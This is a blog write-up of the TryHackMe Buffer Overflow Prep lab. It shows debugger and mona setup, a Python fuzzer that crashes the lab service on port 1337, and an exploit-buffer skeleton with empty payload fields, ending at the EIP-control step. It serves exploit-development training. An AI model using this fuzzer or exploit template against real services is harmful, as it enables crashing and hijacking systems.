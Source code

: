 ```yaml
---
title: TryHackMe BufferOverflow
description: Buffer Overflow Prep
categories:
 - tryhackme

tags: tryhackme Bufferoverflow

---
```


## Summary

Practice stack based buffer overflows!


## Starting Immunity Debugger
![Screenshot_2021-08-13_04_01_12](https://user-images.githubusercontent.com/35343744/196925791-6607e075-39bf-436d-8ad5-38bd9822ab37.png)


hello

Right-click the Immunity Debugger icon on the Desktop and choose "Run as administrator".


![Screenshot_2021-08-13_04_02_29](https://user-images.githubusercontent.com/35343744/196926181-9e304bcf-9035-48f4-96a1-7767948b8888.png)


When Immunity loads, click the open file icon, or choose File -> Open. Navigate to the vulnerable-apps folder on the admin user's desktop, and then the "oscp" folder. Select the "oscp" (oscp.exe) binary and click "Open".

## Mona Configuration

Run these command in the input box at the bottom of the immunity Debugger window.

```
!mona config -set workingfolder c:\mona\%p
```
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_03_54.png)


## Fuzzing

Run this python script to fuzz

```
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)

```

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_04_52.png)

Basically, this script is going to send increasingly long strings comprised of As. If the server gets crashed, the fuzzer should exit with an error message.
![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_05_45.png)

![](https://github.com/greenway71/greenway71.github.io/blob/340df137c36ee7d428465ec76f36121a57837ae7/Bufferoverflow-screenshot/Screenshot_2021-08-13_04_06_06.png)

## Crash Replication & Controlling EIP
```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

